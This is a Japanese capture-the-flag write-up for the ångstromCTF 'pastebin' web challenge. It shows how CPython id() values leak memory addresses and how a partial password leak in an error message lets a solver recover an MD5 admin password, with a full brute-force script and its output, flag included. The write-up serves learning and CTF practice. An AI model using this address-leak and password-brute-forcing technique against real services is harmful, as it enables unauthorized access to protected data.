

# pastebin:web:120pts
Challenge: [https://pastebin.web.actf.co/](https://pastebin.web.actf.co/)  

[main.py](main.py)  

# Solution
URLとソースが渡される。  
アクセスすると、Pasteを保存できるサイトのようだ。  
  
`Satoki`と保存すると、`https://pastebin.web.actf.co/view?id=135598339909712`のようなURLが払い出される。  
ソースの主要部分は以下の通りであった。  
```python
import hashlib
import html
import os
import secrets

from server import Server

ADMIN_PASSWORD = hashlib.md5(
    f'password-{secrets.token_hex}'.encode()
).hexdigest()

pastes = {}

def add_paste(paste_id, content, admin_only=False):
    pastes[paste_id] = {
        'content': content,
        'admin_only': admin_only,
    }

server = Server()

~~~

@server.post('/paste')
async def paste(request):
    data = await request.post()
    content = data.get('content', '')
    paste_id = id(content)

    add_paste(paste_id, content)

    return (200, f'''
        <link rel="stylesheet" href="/style.css">
        <div class="container">
            <h1>Paste Created</h1>
            <p><a href="/view?id={paste_id}">View Paste</a></p>
        </div>
    ''')

@server.get('/view')
async def view_paste(request):
    id = request.query.get('id')
    paste = pastes.get(int(id))

    if paste is None:
        return (404, 'Paste not found')

    if paste['admin_only']:
        password = request.query.get('password', '')
        if password != ADMIN_PASSWORD:
            return (
                403,
                f'Incorrect parameter &password={ADMIN_PASSWORD[:6]}...',
            )

    return (200, f'''
        <link rel="stylesheet" href="/style.css">
        <div class="container">
            <h1>Paste</h1>
            <pre>{html.escape(paste['content'])}</pre>
        </div>
    ''')

~~~

add_paste(0, os.getenv('FLAG', 'missing flag'), admin_only=True)
server.run('0.0.0.0', 3000)
```
`add_paste(0, os.getenv('FLAG', 'missing flag'), admin_only=True)`より`https://pastebin.web.actf.co/view?id=0`にフラグがあることがわかる。  
ただし、`admin_only=True`なので、正確な`ADMIN_PASSWORD`をクエリとして渡す必要がある。  
幸いなことに`ADMIN_PASSWORD[:6]`までは認証失敗の応答に含まれているようだ。  
```bash
$ curl 'https://pastebin.web.actf.co/view?id=0'
Incorrect parameter &password=1797c2...
```
`ADMIN_PASSWORD`が`1797c2`で始まることがわかる。  
ここで、`ADMIN_PASSWORD`の生成個所を見る。  
```python
ADMIN_PASSWORD = hashlib.md5(
    f'password-{secrets.token_hex}'.encode()
).hexdigest()
```
手元で実行して試すと、以下のような奇妙な実装ミスを見つける。  
```bash
$ python
>>> import hashlib
>>> import secrets
>>> ADMIN_PASSWORD = hashlib.md5(
...     f'password-{secrets.token_hex}'.encode()
... ).hexdigest()
>>> ADMIN_PASSWORD
'0921c980c1b4c639b9a69e07c99dd87b'
>>> f'password-{secrets.token_hex}'.encode()
b'password-<function token_hex at 0x7ffae2f4e9e0>'
```
`secrets.token_hex()`となるべき箇所が`secrets.token_hex`と記述されており、`<function token_hex at 0x7ffae2f4e9e0>`のようなメモリアドレスを含む文字列となっている。  
リモートサーバのメモリアドレスが分かれば`ADMIN_PASSWORD`も計算できるが、まだエントロピーが高い。  
どこからかアドレスがわからないかと考えていると、`paste_id = id(content)`が目に留まる。  
`id()`はオブジェクトの識別値を返し、CPythonではアドレスとなる。  
これはPasteのURLから取得でき、先ほどのURLのidである`id=135598339909712`もHexで`0x7b5372e1e850`とアドレスのようだ。  
その他にもPasteを作ると、`135598320237360`(`0x7b5371b5bb30`)や`135598320232560`(`0x7b5371b5a870`)と一致している箇所があると分かる。  
検証の結果`0x7b537XXXXXXX`の`0xXXXXXXX`を当てればいいようだ。  
`ADMIN_PASSWORD`の先頭はわかっているので、md5の結果の先頭が`1797c2`となるものを探せばよい。  
以下のid2passwd.pyで計算し、候補をすべて試す。  
```python
import re
import hashlib
import requests

passwd = re.search(
    "Incorrect parameter &password=([0-9a-f]+)\.\.\.",
    requests.get("https://pastebin.web.actf.co/view?id=0").text,
).group(1)
print(f"password[:6]: {passwd}")


res = requests.post("https://pastebin.web.actf.co/paste", data={"content": "satoki"})
id_satoki = re.search("id=([0-9]+)", res.text).group(1)
print(f'id("satoki"): {hex(int(id_satoki))}')

for i in range(0x0, 0xFFFFFFF):
    base = int(id_satoki)& (~0xFFFFFFF)
    hash = hashlib.md5(
        f"password-<function token_hex at {hex(base + i)}>".encode()
    ).hexdigest()
    if hash.startswith(passwd):
        print(f"password?: {hash}")
        flag = requests.get(f"https://pastebin.web.actf.co/view?id=0&password={hash}").text
        if "actf{" in flag:
            print(f"password: {hash}")
            print(re.search("actf{.*}", flag).group(0))
            break
```
実行する。  
```bash
$ python id2passwd.py
password[:6]: 1797c2
id("satoki"): 0x7b5371b50e70
password?: 1797c2a5536b66caeb1e43b67caa84b6
password?: 1797c2c4026040eaf89403f7e713277d
password?: 1797c26e62cd714816eb4b152c1df3b3
password?: 1797c2a48f270a2b42660c2e629c51cd
password: 1797c2a48f270a2b42660c2e629c51cd
actf{47fd1d17b0c1121da0fc9d2d0c4fc109}
```
`ADMIN_PASSWORD`が`1797c2a48f270a2b42660c2e629c51cd`と分かり、flagが得られた。  

## actf{47fd1d17b0c1121da0fc9d2d0c4fc109}